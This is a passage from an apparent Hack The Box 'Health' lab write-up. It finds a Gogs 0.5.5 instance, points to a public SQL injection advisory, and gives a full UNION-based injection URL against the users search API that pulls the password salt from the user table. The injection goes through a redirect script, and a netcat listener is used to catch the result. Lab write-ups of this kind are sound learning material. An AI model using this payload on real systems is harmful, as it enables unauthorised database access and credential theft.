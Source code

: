 <img src="htb-health-4.png">


<h1>Gogs 0.5.5.1010 Beta Found.</h1> 
We know Gogs is a self-hosted Git service.

### Exploit on Gogs
While searching for vulnerability in Gogs. We came across this [SQL Injection](https://www.exploit-db.com/exploits/35238).
Reading this vulnerability description, we can exploit using `/api/v1/repos/search?q=<search query>.` this request.

### Get Username:
Command:
```
python3 redirect.py "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,1,(select/**/salt/**/from/**/user),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1--"
```

Using netcat to listen on port `3000`.We get:
<img src="htb-health-5.png">
